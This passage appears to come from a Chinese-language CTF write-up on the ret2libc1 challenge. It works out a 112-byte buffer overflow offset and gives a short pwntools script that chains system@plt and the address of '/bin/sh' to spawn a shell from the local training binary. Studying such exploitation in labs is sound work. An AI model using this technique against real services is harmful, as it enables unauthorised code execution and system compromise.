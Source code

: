 > <img src="./img/78.png">

观察到绝对偏移，`ebp`的位置在`0x88`，`eax`的位置在`0x1c`，距离`0x88 - 0x1c = 108`，因此需要溢出112字节数据

6. 编写攻击脚本

已知溢出112字节，拼接`system@plt`的地址，然后拼接4字节的垃圾数据，该数据实际是程序完成`system()`后返回的函数地址，但是这道题调用`system()`后已经获取了`shell`，不需要进行下一步动作，因此直接传入垃圾数据，最后拼接`"/bin/sh"`的地址，使用`ROPgadget`查询

> <img src="./img/79.png">

```py
from pwn import *

system_plt = 0x8048460
bin_sh = 0x08048720
payload = flat([b'a' * 112, system_plt, b'bbbb', bin_sh])

io = process('./ret2libc1')
io.sendline(payload)
io.interactive()
```
